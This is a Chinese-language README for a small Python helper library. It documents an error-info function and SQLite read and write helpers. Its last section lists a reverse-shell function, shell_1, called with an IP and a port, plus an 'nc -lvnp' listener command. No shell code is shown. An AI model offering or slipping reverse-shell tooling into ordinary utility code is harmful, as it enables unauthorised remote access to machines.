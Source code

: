 # 项目简介

把一些常用的功能写成函数

---

# 函数大全

```
XiaoKang/
├──  常用                    # 常用的功能
│   └──  报错信息            # 报错的时候执行会显示报错信息
├──  sqlite                 #sqlite数据库的操作
│   ├──  db_sql             #提供sql语句，执行sql语句
│   ├──  db_cj              #提供字段和类型，创建数据表
│   ├──  db_dq              #提供sql语句和查找的值，进行查找数据
│   ├──  db_xr              #提供表、字段、值，进行写入数据
│   ├──  db_xg              #提供表、查找字段、查找值，写入字段、写入值，进行写入数据
├──  shell                  #shell反弹
│   └──  shell_1            #反弹shell到nc -lvnp 端口
└── 结束
```

# 函数讲解

所有的函数讲解怎么使用，和什么功能，你地，明白！？

## 1.ChangYong（常用）

### 1.1 BaoCuoXingxi（报错信息）

讲解功能：在代码执行的时候，如果报错可以执行这个，查看详细的报错信息

示例代码：

```
try:
    print('1'+1)
except:
    print(BaoCuoXingxi('json'))

输出：

{
    "报错类型":"<class 'TypeError'>",
    "报错信息":"can only concatenate str (not \"int\") to str",
    "报错文件":"C:\\xxx\\xxxx\\xxxxx\\test_1.py",
    "报错行数":6
}
```

## 2.sqlite（sqlite数据库）

### 2.1 db_sql（执行sql语句）

```
db_sql(sql, 数据库='主记录表')
    sql：sql的执行语句
    数据库：XXX.db文件，默认链接='主记录表'
```

返回：

```
(返回执行情况[真/假]，返回执行后的数据表)
```

---

### 2.2 db_cj（创建数据表）

```
db_cj(表名, 字段, 字段类型: dict = {}, 默认值='TEXT', 数据库='主记录表')
表名：创建的表名
字段[]：创建表中的字段
字段类型{}：指定创建字段的类型
默认值：在没有指定的情况下创建字段的默认值='TEXT'
数据库：XXX.db文件，默认链接='主记录表'
```

返回：

```
返回创建情况[真/假]
```

---

### 2.3 db_dq（读取数据）

```
db_dq(sql, value: tuple = '', 数据库='主记录表')
sql：查询数据的sql语句
value()：sql语句中的'?'值，防止被注入
数据库：XXX.db文件，默认链接='主记录表'
```

返回：

```
(返回执行情况[真/假]，返回执行后的数据表)
```

---

### 2.4 db_xr（新增写入数据）

```
db_xr(表: str, 段: list, 值: list, 数据库='主记录表')
表: 写入数据的表名
段: 写入的字段名
值: 写入的字段值
数据库: 写入的数据库名默认数据库='主记录表'
```

返回：

```
(返回执行情况[真/假]，返回自增值序号)
```

---

### 2.5 db_xg（修改已有数据）

```
db_xg(表: str, 查段: list, 查值: tuple, 写段: list, 写值: tuple, 数据库='主记录表')
表: 修改数据的表名
查段: 判断修改数据的字段名
查值: 字段名对应的值确保数据修改
写段: 需要修改的字段名
写值: 修改字段的值
数据库: 需要修改的数据名：默认值='主记录表'
```

返回：

```
(返回修改情况[真/假])
```

---

## 3.shell（shell反弹）

### 3.1 shell_1

```
用法: python shell.py <IP> <端口>

shell_1(<IP>, <端口>)

服务器开启监听
nc -lvnp 端口
```

# 安装方法

pip 安装大法

---

# 使用示例

导入函数会吧，不会自己学

---

# 依赖说明

目前没用使用其他依赖，都是用本地库

---

# 作者信息

作者：小康、米汤、鲁班

---
